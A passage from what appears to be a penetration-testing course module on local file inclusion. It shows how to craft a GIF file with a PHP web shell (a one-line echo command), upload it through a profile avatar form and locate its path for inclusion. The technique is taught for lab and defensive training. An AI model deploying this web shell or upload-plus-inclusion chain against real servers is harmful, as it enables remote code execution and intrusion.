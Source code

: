 <td align="center">✅</td>
<td align="center">✅</td>
<td align="center">✅</td>
</tr>
<tr>
<td><strong>.NET</strong></td>
<td align="center"></td>
<td align="center"></td>
<td align="center"></td>
</tr>
<tr>
<td><code>include</code></td>
<td align="center">✅</td>
<td align="center">✅</td>
<td align="center">✅</td>
</tr>
</tbody>
</table>
<hr/>
<h2>Image upload</h2>
<p>Image upload is very common in most modern web applications, as uploading images is widely regarded as safe if the upload function is securely coded. However, as discussed earlier, the vulnerability, in this case, is not in the file upload form but the file inclusion functionality.</p>
<h4>Crafting Malicious Image</h4>
<p>Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image. So, we will use an allowed image extension in our file name (e.g. <code>shell.gif</code>), and should also include the image magic bytes at the beginning of the file content (e.g. <code>GIF8</code>), just in case the upload form checks for both the extension and content type as well. We can do so as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ echo 'GIF8&lt;?php system($_GET["cmd"]); ?&gt;' &gt; shell.gif
</code></pre>
<p>This file on its own is completely harmless and would not affect normal web applications in the slightest. However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.</p>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> We are using a <code>GIF</code> image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type. The <a href="/module/details/136">File Upload Attacks</a> module goes more in depth for file type attacks, and the same logic can be applied here.</p>
</div>
</div>
<p>Now, we need to upload our malicious image file. To do so, we can go to the <code>Profile Settings</code> page and click on the avatar image to select our image, and then click on upload and our image should get successfully uploaded:
<img alt="Profile image upload interface with a successful upload message." class="website-screenshot" data-url="http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/settings.php" src="/storage/modules/23/lfi_upload_gif.jpg"/></p>
<h4>Uploaded File Path</h4>
<p>Once we've uploaded our file, all we need to do is include it through the LFI vulnerability. To include the uploaded file, we need to know the path to our uploaded file. In most cases, especially with images, we would get access to our uploaded file and can get its path from its URL. In our case, if we inspect the source code after uploading the image, we can get its URL:</p>
<pre><code class="language-html">&lt;img src="/profile_images/shell.gif" class="profile-image" id="profile-image"&gt;
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> As we can see, we can use `/profile_images/shell.gif` for the file path. If we do not know where the file is uploaded, then we can fuzz for an uploads directory, and then fuzz for our uploaded file, though this may not always work as some web applications properly hide the uploaded files.</p>
</div>